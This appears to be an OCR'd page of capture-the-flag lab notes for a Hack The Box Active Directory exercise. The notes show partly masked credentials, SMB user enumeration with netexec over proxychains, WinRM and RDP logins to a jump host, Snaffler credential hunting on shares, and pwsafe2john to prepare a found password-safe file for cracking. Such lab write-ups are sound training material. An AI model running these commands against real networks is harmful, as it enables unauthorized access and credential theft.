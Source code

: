 ```yaml
credentials:
    username: nexura.htb\hwilliam
    password: 'deale**************'
    host: 172.16.119.7 (JUMP01)
    port: 3389,5985 (RDP,WINRM)
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11 -u hwilliam -p 'deale**************' --users | awk '{print $5}' | grep -v -E 'Username|]' | awk '{print tolower($s0)}' | tee nexura_ad_users.txt

administrator
guest
krbtgt
bdavid
stom
hwilliam
```

```
┌──(nabla㉿kali)-[~]
└─$ proxychains -q evil-winrm -i 172.16.119.7 -u hwilliam -p 'deale**************'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hwilliam\Documents>
```

```
┌──(nabla㉿kali)-[~]
└─$ proxychains -q xfreerdp /v:172.16.119.7 /u:hwilliam /p:'deale**************' /dynamic-resolution /drive:shared,~/shared +clipboard /cert-ignore
```

### Credential Hunting - Network Shares (Windows)

```
PS C:\Users\hwilliam> C://Users//hwilliam//Desktop//Snaffler.exe --domainusers --outfile C://Users//hwilliam//Desktop//snaffler.output

[SNIP]

[NEXURA\hwilliam@JUMP01] 2025-07-09 10:37:00Z [File] {Black}<KeepPassMgrsByExtension|R|^\.psafe3$|1.1kB|2025-04-29 15:09:57Z>(\\FILE01.nexura.htb\HR\Archive\Employee-Passwords_OLD.psafe3) .psafe3
```

### Password Cracking

```
┌──(nabla㉿kali)-[~]
└─$ pwsafe2john shared/Employee-Passwords_OLD.psafe3 > employee_passwords.john
```
